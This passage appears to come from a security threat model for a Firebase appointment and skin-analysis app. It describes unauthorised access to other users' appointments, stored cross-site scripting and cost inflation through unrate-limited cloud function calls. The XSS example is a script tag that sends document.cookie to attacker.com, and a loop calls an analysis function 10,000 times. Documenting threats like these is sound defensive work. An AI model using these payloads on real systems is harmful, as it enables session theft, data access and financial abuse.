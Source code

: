 **Example:**
```javascript
// User A tries to access User B's appointments
await db.collection('appointments')
  .where('customerId', '==', 'user-b-id')
  .get(); // Succeeds if they know the ID
```

---

#### Vector 8: Cross-Site Scripting (XSS)
```
Attacker → Submit XSS Payload in Name Field → Execute in Admin Panel
         (No input sanitization)

Timeline: 1 hour
Skill Level: Intermediate
```

**Example Payload:**
```javascript
// Customer name:
<script>
  fetch('https://attacker.com/steal?cookie=' + document.cookie)
</script>
```

When admin views customer list, the script executes.

---

#### Vector 9: Rate Limit Bypass → Cost Inflation
```
Attacker → Call Expensive AI Functions Repeatedly → $$$
         (No rate limiting)

Timeline: Continuous
Skill Level: Basic
```

**Attack:**
```javascript
// Call skin analysis 10,000 times
for (let i = 0; i < 10000; i++) {
  await firebase.functions().httpsCallable('analyzeSkinPhoto')({
    analysisId: 'test',
    imageUrl: 'some-url'
  });
}
```

**Cost Impact:**
- Each analysis: ~$0.01
- 10,000 calls: $100
- Can run this 24/7

---